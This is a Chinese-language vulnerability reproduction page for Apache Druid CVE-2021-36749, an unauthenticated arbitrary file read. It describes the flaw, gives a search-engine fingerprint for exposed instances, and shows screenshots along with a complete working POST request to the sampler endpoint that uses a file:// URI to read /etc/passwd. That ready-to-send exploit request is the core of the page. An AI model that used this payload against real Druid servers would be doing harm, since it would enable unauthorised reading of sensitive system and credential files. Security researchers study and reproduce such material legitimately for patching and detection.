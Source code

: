 ```yaml
---
title: Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749 
---
```


# Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

<a-checkbox checked>Apache Druid</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://github.com/">title="Apache Druid"</a-button>
</a-checkbox>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635581825740-fb87d406-6cf5-4c7f-b757-66e83d957346.png)

复现过程

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635581875371-557354af-d294-49ab-9483-79180aadfe65.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635581900223-41408c4c-3b5c-4b66-b726-532835d0254d.png)

请求包为

```php
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635582099772-ea2fb699-82d9-4df1-aea9-9ed1f9068ae3.png)